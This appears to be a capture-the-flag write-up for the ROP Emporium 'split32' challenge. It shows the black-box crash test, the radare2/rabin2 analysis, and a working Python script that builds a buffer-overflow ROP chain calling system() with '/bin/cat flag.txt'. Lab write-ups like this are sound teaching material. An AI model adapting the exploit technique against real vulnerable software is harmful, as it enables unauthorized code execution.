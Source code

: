 # split32
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```
![](./0.png)

Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```
![](./3.png)

Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```
![](./5.png)

As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `"/bin/cat flag.txt"`.

If we can send this string to the `system()` function, we win. Keeping that in mind, let's check the `usefulFunction`.

```
r2 split32
```
```
aa
```
```
afl
```
![](./6.png)
```
pdf @ sym.usefulFunction
```
![](./7.png)

It can be seen that the function as a whole won't help us, but it contains a call to the `system()` function, which we do want. Additionally, the helper function pushes the address of the string `"/bin/ls"` onto the stack. We will aim to create a similar state on the stack, where the address of the `usefulString` is at the top of the stack when the call to `system()` is made.

## Solution
Let's summarize in a tables the details we discovered from the research that are important for the ROP Chain.

| String              | Address    |
|---------------------|------------|
| "/bin/cat flag.txt" | 0x0804a030 |


| Code        | Address    |
|-------------|------------|
| call system | 0x0804861a |

* Note: This is not the address of the `system()` function, but rather the command that calls it.

Now we can build the ROP Chain. First, it will consist of 44 garbage characters. Immediately after that, the **address of the command that calls** the `system()` function will appear. As mentioned, the `system()` function expects the call to be made when the address of the string it will operate on is already at the top of the stack. When the program uses the malicious return value, the top of the stack will increase by 4 bytes. Therefore, immediately after the malicious return value, we will add the address of the string `"/bin/cat flag.txt"`.

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer           = b"X"*44
call_system_CODE_ADDR = 0x0804861a # The address of the command that calls the `system` function. Don't confuse it with the concept of a "system call".
cat_STRING_ADDR       = 0x0804a030

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += little_endian(call_system_CODE_ADDR)
ROP_Chain += little_endian(cat_STRING_ADDR)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./split
```
![](./8.png)

Haida!